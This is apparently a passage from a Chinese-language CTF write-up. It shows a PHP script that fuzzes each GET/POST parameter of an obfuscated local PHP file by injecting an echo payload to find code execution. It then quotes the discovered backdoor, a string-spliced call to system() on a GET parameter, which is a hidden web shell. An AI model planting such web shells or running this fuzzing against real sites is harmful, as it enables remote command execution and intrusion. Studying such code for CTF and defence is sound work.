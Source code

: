 ```php
        $start = mb_strpos($linev, '$_');
        $word = mb_substr($linev, $start, (mb_strrpos($linev, "]") - $start + 1));
        $method = mb_strpos($word, '$_POST') !== false ? "post" : "get";
        if (mb_strpos($word, '\\\'') !== false) {
            $func = mb_substr($word, mb_strpos($word, '[\\\'') + 3, -3);
        } else {
            $func = mb_substr($word, mb_strpos($word, '[\'') + 2, -2);
        }
        echo "[$method]\t" . str_pad($func, 17) . PHP_EOL;
        $value = 'echo "windowslinuxmac";';
        $cnt++;
        if ($method == "post") {
            $http["http"] = [
                'method' => strtoupper($method),
                'header' => 'Content-Type: application/x-www-form-urlencoded; charset=utf-8',
                'content' => http_build_query([
                    $func => $value
                ])
            ];
            //var_dump($http["http"]);
            $context = stream_context_create($http);
            $result = file_get_contents("http://localhost/web2/" . "xk0SzyKwfzw.php", false, $context);
            //echo "$result\n";
        } else {
            $result = file_get_contents("http://localhost/web2/" . "xk0SzyKwfzw.php" . "?" . $func . "=" . urlencode($value));
        }
        //echo $result.PHP_EOL;
        if ($result === false) echo "请求失败！\n";
        else {
            if (mb_strpos($result, "windowslinuxmac") !== false) {
                echo "Found!!!\n";
                sleep(10);
            }
        }
    }
}
echo "[cnt] " . $cnt . PHP_EOL;
```

找到发现在 300 行左右的这段代码是一个非常奇怪的拼接，然后拼成了 system 并执行。

```php
$XnEGfa = $_GET['Efa5BVG'] ?? ' ';
$aYunX = "sY";
$aYunX .= "stEmXnsTcx";
$aYunX = explode('Xn', $aYunX);
$kDxfM = new stdClass();
$kDxfM->gHht = $aYunX[0];
($kDxfM->gHht)($XnEGfa);
```
